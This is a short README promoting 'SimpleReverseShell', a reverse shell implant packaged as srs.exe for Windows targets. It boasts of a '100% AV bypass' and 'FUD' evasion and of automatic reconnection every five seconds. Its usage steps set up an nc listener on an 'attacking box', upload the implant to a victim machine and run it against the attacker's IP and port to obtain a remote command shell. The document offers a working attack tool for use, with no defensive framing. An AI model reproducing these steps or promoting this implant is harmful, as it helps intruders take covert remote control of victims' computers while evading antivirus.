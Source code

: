 # SimpleReverseShell
py based rev cmd shell w/bare minimal dependencies x86_x64

Rumored to be Miley's favorite command shell.

![alt tag](http://i.imgur.com/sqov7iX.jpg)

100% AV bypass

![alt tag](http://i.imgur.com/GlkEB0q.png)

Usage:
Start a generic listener on your attacking box to catch the incoming connection. 
#nc -lvp 58931

![alt tag](http://i.imgur.com/j2aG99m.png)

Upload srs.exe to your Windows target (x86 or x64) and specifiy a remote host and remote port 
#srs.exe 192.168.0.5 58931

![alt tag](http://i.imgur.com/0KDbncP.png)

The listener receives the shell and you may begin executing commands. #hacktheplanet

![alt tag](http://i.imgur.com/NVQqBOb.png)

Easy as pie. The core feature of the shell is it's resilience to CTRL+C sighups.
Additionally, the implant will re-iniatiate connection every 5 seconds if the socket dies.

Simple. Portable. Resilient. FUD.




